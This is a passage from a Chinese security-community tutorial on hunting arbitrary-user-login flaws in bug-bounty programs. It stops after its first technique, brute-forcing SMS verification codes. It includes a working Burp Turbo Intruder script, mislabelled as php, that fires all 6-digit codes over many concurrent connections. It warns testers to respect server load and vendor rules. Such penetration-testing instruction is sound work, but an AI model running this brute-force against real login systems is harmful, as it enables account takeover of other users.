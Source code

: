 

# 奇安信攻防社区-任意用户登录漏洞挖掘思路

### 任意用户登录漏洞挖掘思路

任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src中任意用户登录漏洞的挖掘思路。

# 任意用户登录漏洞挖掘思路

## 前言

任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src中任意用户登录漏洞的挖掘思路。

## 1.手机验证码问题导致的任意用户登录

### 1.1 验证码爆破

​ 当登录流程使用手机验证码登录，没有图片验证码/图片验证码可重用/图片验证码简单可识别（可以使用captcha-killer-modified插件）且后端没有限制手机验证码验证错误次数时，可以尝试爆破手机验证码登录其他用户。

​ 4位验证码的爆破老生常谈不再赘述；随着厂商们服务器性能的提高，服务器的rps的上升也使得6位验证码的爆破越来越快，可以使用如下方法爆破（！！！需留意服务器的rps以及测试厂商的注意事项，rps低的老系统或者厂商禁止批量爆破的项目谨慎使用6位验证码的爆破！！！）：

​ 使用burpsuite的Turbo Intruder插件，编写如下脚本：

```php
import re

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=True
                           )

    for i in range(1000000):                            #生成六位验证码字典
        number = "{:06d}".format(i)
        engine.queue(target.req, number.rstrip())

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status <404:
        '''res = re.findall('Msg":"(.*?)"',req.response)[0]    
        if len(res)>18:'''                              #六位数的验证码爆破结果展示列太多，可根据实际情况自行筛选展示
        table.add(req)
```

成功案例如下：
